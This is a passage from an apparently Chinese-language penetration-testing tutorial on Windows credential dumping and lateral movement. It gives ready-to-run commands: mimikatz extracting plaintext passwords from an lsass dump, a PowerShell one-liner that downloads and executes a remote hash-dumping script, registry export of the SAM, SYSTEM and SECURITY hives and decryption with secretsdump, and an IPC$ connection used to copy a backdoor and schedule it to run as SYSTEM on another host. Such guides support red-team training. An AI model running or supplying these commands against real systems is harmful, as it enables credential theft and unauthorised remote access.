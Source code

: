 2、使用 mimikatz 从转储的 lsass.dmp 中来读取明文密码

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full"
```

![](https://image.3001.net/images/20200304/15833017522904.png!small)

**3.1.3Getpass**

Getapss 是由闪电小子根据 mimikatz 编译的一个工具，可以直接获取明文密码，直接运行 Getpass.exe 即可：

![](https://image.3001.net/images/20200304/15833017791624.png!small)

**3.1.4Powershell 脚本抓取**

当目标系统存在 powershell 时，可直接一句 powershell 代码调用抓取，前提是目标可出外网，否则需要将 ps1 脚本放置内网之中。执行:

```
powershell IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1’);Get-PassHashes
```

**3.1.5Sam 破解**

使用注册表来离线导出 Hash

```
reg save HKLM\SYSTEM system.hiv    reg save HKLM\SAM sam.hiv    reg save hklm\security security.hiv
```

导出后可以使用 mimikatz 加载 sam.hiv 和 sam.hiv 来导出 Hash。或者使用 impacket 套件中 secretsdump.py 脚本去解密，也是可以的。

```
python secretsdump.py -sam sam.hiv -security security.hiv -system system.hiv LOCAL
```

### 3.2 横向移动

**3.2.1IPC + 计划任务**

通过 ipc$ 实现对 windows 默认共享的访问，配合计划任务执行后门程序获取服务器权限。

1、通过 net use 建立 IPC$ 连接

```
net use \\192.168.91.131\IPC$ /user:"administrator" "abc@123"
```

![](https://image.3001.net/images/20200304/15833018286050.png!small)

2、利用 copy 上传后门文件

> copy D:\test.bat \\186.64.10.13\c$

![](https://image.3001.net/images/20200304/15833018404700.png!small)

3、创建计划任务执行后门程序

```
schtasks /create /s 186.64.10.13 /u Administrator /p Admin@123.. /ru "SYSTEM" /tn test /sc DAILY /st 22:18 /tr C:\\windows\\temp\\test.bat /F
```
